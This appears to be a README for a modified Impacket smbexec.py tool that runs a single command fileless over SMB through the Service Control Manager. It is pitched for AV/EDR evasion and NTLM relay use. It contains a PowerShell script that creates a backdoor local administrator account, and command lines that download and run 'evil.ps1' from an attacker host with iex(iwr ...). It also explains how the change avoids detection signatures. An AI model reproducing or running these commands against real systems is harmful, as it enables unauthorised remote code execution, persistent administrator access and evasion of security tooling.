 Modified SMB Exec
========

This is a minimal modification of Impacket’s smbexec.py that adds support for a new flag:

```
--exec-cmd "<command>"
```

Purpose
========
The tool executes a single command remotely via Service Control Manager (SCM) over SMB (port 445) without writing any files to disk.

Key Changes
========
- Adds an --exec-cmd option to run a one-liner directly.
- Uses SCM over RPC for execution, similar to the original smbexec, but avoids the batch file creation step.
- Helps with AV evasion by keeping execution fileless.
- Still uses the same underlying Impacket framework and authentication methods.

Example Usage
========

Host a powershell script that adds a local administrator on the target machine

```
$Username = "fakeadmin"
$Password = "Password01"
$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force
New-LocalUser -Name $Username -Password $SecurePassword -FullName "Fake Admin" -Description "Fake Admin" -PasswordNeverExpires
Add-LocalGroupMember -Group "Administrators" -Member $Username
```

Call the powershell script 
```
 python3 smbexec.py  ./administrator:Password01@target-host --exec-cmd='cmd.exe /c powershell.exe iex(iwr http://attackerIP:8888/evil.ps1 -usebasicparsing)' 
```

Using Kerberos

```
python3 smbexec.py -k -no-pass domain.local/admin@target-host --exec-cmd='cmd.exe /Q /c powershell.exe iex(iwr http://attackerIP:8888/evil.ps1 -usebasicparsing)' 
```
❓ Why
========
This modified version of smbexec.py is designed for stealthy, fileless command execution using only SMB (port 445) ideal for NTLM relay scenarios or restricted environments where other ports (e.g., 135, 139) are blocked and AV detection is a concern.

In the original implementation, command execution works by:

Constructing a batch file path:
```
self.__batchFile = '%TEMP%\\' + BATCH_FILENAME
Preparing the shell command using %COMSPEC% (typically cmd.exe) and redirection:
```
Preparing the shell command using %COMSPEC% (typically cmd.exe) and redirection:
```
self.__shell = '%COMSPEC% /Q /c '
command = self.__shell + 'echo ' + data + ' ^> ' + self.__output + ' 2^>^&1 > ' + self.__batchFile
command += ' & ' + self.__shell + self.__batchFile
command += ' & del ' + self.__batchFile
Writing the command to disk, executing it, then reading the output file:
```

Writing the command to disk, executing it, then reading the output file:
```
self.__output = '\\127.0.0.1\\' + self.__share + '\\' + OUTPUT_FILENAME
```

This method:

- Creates temp files (.bat, output.txt) on the target
- Uses file redirection (>, 2>&1)
- Is heavily signatured and easily caught by AV/EDR tools


The modified SMBexec does the following:
========

The execution logic skips batch/output file creation entirely. Instead:
The command passed via --exec-cmd is used directly as the service binary path:
```
lpBinaryPathName = "cmd.exe /Q /c powershell.exe  ..."

```
This command is passed to hRCreateServiceW() like so:
```
scmr.hRCreateServiceW(self.__scmr, ..., lpBinaryPathName=command, ...)
```

✅ Result:

- No disk artifacts
- No output redirection or readback
- No %TEMP%, %COMSPEC%, or file paths involved
- Pure in-memory, one-shot execution via SCM over SMB
